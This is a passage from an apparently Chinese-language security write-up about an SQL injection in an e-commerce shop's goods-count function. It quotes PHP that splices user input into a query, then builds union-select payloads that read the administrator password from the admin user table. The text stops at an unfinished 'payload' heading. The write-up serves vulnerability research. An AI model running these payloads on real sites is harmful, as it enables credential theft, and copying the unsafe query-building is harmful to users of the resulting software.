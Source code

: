```
```
function category_get_count($children, $brand, $type, $min, $max, $ext, $keyword)
    `{`

        $where = "g.is_on_sale = 1 AND g.is_alone_sale = 1 AND " . "g.is_delete = 0 ";
        if ($keyword != '') `{`
            $where .= " AND (( 1 " . $keyword . " ) ) ";
        `}` else `{`
            $where .= " AND ($children OR " . model('Goods')-&gt;get_extension_goods($children) . ') ';
        `}`
        ..............
        if ($brand &gt; 0) `{`
            $where .= "AND g.brand_id = $brand ";//
        `}`
        if ($min &gt; 0) `{`
            $where .= " AND g.shop_price &gt;= $min "; //直接拼接变量
        `}`
        if ($max &gt; 0) `{` //这里可控
            $where .= " AND g.shop_price &lt;= $max"; //直接拼接变量
        `}`


        $sql = 'SELECT COUNT(*) as count FROM ' . $this-&gt;pre . 'goods AS g ' . ' LEFT JOIN ' . $this-&gt;pre . 'touch_goods AS xl ' . ' ON g.goods_id=xl.goods_id ' . ' LEFT JOIN ' . $this-&gt;pre . 'member_price AS mp ' . "ON mp.goods_id = g.goods_id AND mp.user_rank = '$_SESSION[user_rank]' " . "WHERE $where $ext "; //直接拼接变量
        $res = $this-&gt;row($sql);//进入查询
        return $res['count'];
    `}`
```

`"WHERE $where $ext ";` 从这里可以看到100%注入了,那么构造下回显注入罗:

debug出SQL语句,本地MYSQL执行:

```
SELECT COUNT(*) as count FROM ecs_goods AS g  LEFT JOIN ecs_touch_goods AS xl  ON g.goods_id=xl.goods_id  LEFT JOIN ecs_member_price AS mp ON mp.goods_id = g.goods_id AND mp.user_rank = '0' WHERE g.is_on_sale = 1 AND g.is_alone_sale = 1 AND g.is_delete = 0  AND (g.cat_id  IN ('0')  OR g.goods_id IN ('') )  AND g.shop_price &lt;= 1
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws3.sinaimg.cn/large/006tNc79gy1fytfy8eb3wj30vk0b0jst.jpg)

count的话总是会有返回值的,之前那个控制id=-1可以令结果集为空,然后联合注入,这个却不行,

骚操作,但是我们可以这样来绕过:

`AND g.shop_price &lt;= 1.0union select password from ecs_admin_user;`

[![](https://p4.ssl.qhimg.com/dm/1024_350_/t01da9d5abe68303624.jpg)](https://p4.ssl.qhimg.com/dm/1024_350_/t01da9d5abe68303624.jpg)

然后怎么让他升到第一列,利用`order by` //这种情况只适合两列或者有最大值的情况。

`AND g.shop_price &lt;= 1.0union select password from ecs_admin_user order by count desc limit 1;`

这样就可以返回管理员的密码了,哈哈我很开心呀,结果发现,页面没有返回,直接跳转到mysql错误那里去了,

经过分析在下面一行代码又重复调用了那个变量。

输入payload:

```